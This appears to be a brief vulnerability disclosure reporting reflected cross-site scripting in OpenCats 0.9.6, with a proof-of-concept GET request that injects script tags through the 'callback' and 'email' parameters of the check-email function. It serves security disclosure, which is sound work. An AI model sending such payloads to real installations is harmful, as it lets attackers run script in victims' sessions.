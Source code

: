 # Cross Site Scripting vulnerability in the OpenCats 'email' parameter of Check Email functionality

OpenCats version 0.9.6 PHP7.2 suffers from reflected XSS vulnerability. 
This allows attackers arbitrary JavaScript injection, which compromises secure session between client and server.

### PoC
```
GET /index.php?m=toolbar&callback=<script>alert`xss`</script>&a=checkEmailIsInSystem&email=<script>alert(document.domain)</script>
```

![XSS](https://user-images.githubusercontent.com/57464251/193469122-7bfe081e-9228-4e6d-94f6-325557964344.png)
